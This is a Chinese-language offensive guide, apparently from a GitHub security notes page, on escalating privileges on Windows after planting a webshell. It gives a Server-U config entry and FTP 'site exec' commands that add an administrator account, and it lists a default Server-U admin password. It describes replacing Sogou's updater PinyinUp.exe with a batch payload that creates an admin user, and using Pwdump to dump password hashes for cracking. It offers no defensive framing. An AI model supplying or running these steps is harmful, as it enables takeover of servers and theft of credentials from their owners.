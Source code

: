 ### 1.第三方软件提权

#### 1.1 Server-U

**serverUDaemon.ini有修改权限：**

1、上传webshell后如果服务器有安装Server-U服务，在Server-U的安装目录下的serverUDaemon.ini文件中添加新用户。如，添加一个test用户，并赋予系统权限

```
[USER=test|1]
Password=
HomeDir=c:
RelPaths=1
PasswordLastChange=1292736176
TimeOut=600
Maintenance=System
Access1=c:|RWAMELCDP
ReloadSettings=True

模仿配置文件添加修改即可
```

2、使用修改的帐号登录Server-U并执行如下命令

```
ftp>quote site exec net user ndsec ndsecpw /add
ftp>quote site exec net localgroup administrators ndsec /add
```

**serverUDaemon.ini无修改权限：**

1、上传webshell后查看serverUDaemon.ini文件中的password参数的值，该值为`MD5`加密过的密钥，对其`爆破`

2、Server-U默认帐号密码`LocalAdministrator/#l@$ak#.lk;0@P`  如果被修改了，可下载安装目录下的`serverAdmin.exe` 使用16进制查看器（winHex）打开，查找LocalAdministrator在后面便可看到相应的密码

#### 1.2 Sogou输入法提权

1、上传webshell后，查找sogou输入法的安装路径，可通过webshell的查找功能或直接查找注册列表获得安装路径

2、使用quickbfc.exe（将任何BAT、CMD批处理脚本编译为EXE文件的工具）制作一个PinyinUp.exe(制作的),源码如下所示:

```
@echo off
@net user ndsec ndsecpw /add
@net localgroup administrators ndsec /add
```

3、将sogou安装目录下的PinyinUp.exe（原本的）删除或重命名然后上传如上制作出来的程序

4、当sogou输入法自动更新词库时会调用并执行PinyinUp.exe程序，此时便会添加一个ndsec/ndsecwp的用户且具有管理员的权限 

#### 1.3 Pwdump

Pwdump7 是一个免费的Windows实用程序，它能够提取出Windows系统中的口令，并存储在指定的文件中

使用场景：

在获取webshell之后，准备进一步提权，通过pwdump获取靶机用户密码的哈希值，可获取到管理员密文密码，结合彩虹表，可得出管理员密码。
